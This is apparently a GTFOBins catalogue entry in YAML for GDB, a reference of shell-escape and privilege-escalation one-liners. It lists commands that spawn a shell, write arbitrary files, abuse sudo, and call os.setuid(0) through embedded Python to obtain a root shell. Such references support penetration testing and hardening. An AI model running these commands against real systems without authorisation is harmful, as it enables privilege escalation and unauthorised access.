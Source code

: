 ```yaml
---
description: |
  GDB may come with embedded Python support, in that case arbitrary code can be executed with the `python` command in the context of the GDB process.

  See the entries of Python [version 2](/gtfobins/python2/) and [version 3](/gtfobins/python3/).
functions:
  execute-interactive:
    - code: gdb -nx -ex '!sh' -ex quit
  file-write:
    - code: |
        LFILE=file_to_write
        gdb -nx -ex "dump value $LFILE \"DATA\"" -ex quit
  sudo-enabled:
    - code: sudo gdb -nx -ex '!sh' -ex quit
  capabilities-enabled:
    - description: Only if it has been compiled with Python support.
      code: ./gdb -nx -ex 'python import os; os.setuid(0)' -ex '!sh' -ex quit
---
```

